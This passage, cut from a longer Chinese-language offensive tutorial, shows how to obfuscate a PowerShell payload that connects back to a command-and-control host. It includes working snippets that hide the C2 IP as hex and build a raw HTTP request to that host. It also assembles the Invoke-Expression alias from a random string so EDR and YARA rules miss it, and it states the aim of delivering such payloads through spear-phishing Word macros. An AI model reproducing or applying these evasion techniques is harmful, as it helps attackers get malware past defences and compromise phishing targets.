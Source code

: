 
我们已经分解了上面的有效载荷。现在是时候混淆每个命令了。对于混淆部分，我们将使用从环境变量到内置 PowerShell 命令的所有功能。此外，让我们只需将 TCP 套接字更改为自定义 HTTP 连接，以防我们需要在 Word 宏中使用这些有效负载进行 Spear 钓鱼活动。

首先，让我们混淆 IP 地址为简单的十六进制。我的 C2 主机 IP 是 192.168.56.1，转为 16 进制时 192 = c0，168 = a8，56 = 38，1 = 1

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfdPfUrbQvOKmr2UY5IiakdjMKuHNbMPrfpd9oHydjPE6817DicecMRGdt9o2TC60MAEAZeMODcLiaUxw/640?wx_fmt=png)

现在，我们将在 PowerShell 的运行时解码它。因此，将此转换为 IP 的代码如下。在这里，我将 IP 的十六进制存储在 **$px** 变量中，然后将其转换为 IP 并将其存储在 **$p** 变量中。

```
$px = "c0","a8","38","1"
$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.'
```

接下来，我们将 HTTP 请求设置一个简单的 GET 请求。确保不要忘记回车符 `\r\n`。否则它不会作为 HTTP 请求。此外，与其使用别名 **text.encoding** 进行字节转换，不如使用原生函数 **[System.Text.ASCIIEncoding] 将**字符串转换为字节的 API。我们将把字节存储在 **$b** 变量中，并将 API **[System.Text.ASCIIEncoding] 存储**在 $s 变量中。我们稍后将使用此进行字节转换。  

```
$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n"
$s = [System.Text.ASCIIEncoding]
[byte[]]$b = 0..65535|%{0}
```

现在，绕过 IEX 的主要任务来了，即 Invoke-Expression 命令。如果你以前玩过 EDR，那么众所周知，这是 IEX 的全名。默认情况下，调用表达式总是被标记为恶意的，因为它用于执行命令。因此，我们将确保有效负载中不存在任何字符串或任何编码版本的 IEX，但我们仍将使用此命令。记住，IEX 本身不是恶意的。它和任何其他微软 API 一样好。只是与 IEX 命令一起使用的字符串将其标记为恶意软件。现在，为了做到这一点，让我们在这里随机选择一个字符串：  

```
$x = "n-eiorvsxpk5"
```

现在上面的代码看起来是乱码。但是，我们将用它来做很多混淆。**$x** 存储一个带有随机字符串的简单变量。现在，这个字符串不能标记为恶意字符串，因为它可以是任何随机字符串，也不能有任何 YARA 规则来检测随机字符串。我们将做的是，使用这个字符串来制作我们的 IEX 命令。这就是我们要怎么做：  

```
Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158])
```

下面我们来剖析一下上面的代码。我们将把它分成四个部分：  

```
1. Set-alias $x
2. $x[$true-10]
3. ($x[[byte]("0x" + "FF") - 265])
4. $x[[byte]("0x" + "9a") - 158])
```

让我们先讨论第 2、3 和第 4 点。**$true** 在数字上是 1。因此，**$true-10** 变成了 **-9**。由于 **$x** 是一个字符串，我们可以从 **$x** 变量中提取 **-9** 个字符，该字符来自：  

> **$x[-9] = i**

接下来，**“0x”+“FF”** 表示 **0xFF**，这是使用 **[字节]** 转换为字节的类型。0xFF 在数字中代表 255。因此，255**-265 = -10**，如下：

> **$x[-10] = e**

同样，第 4 点计算出来的是 **-4**，即：
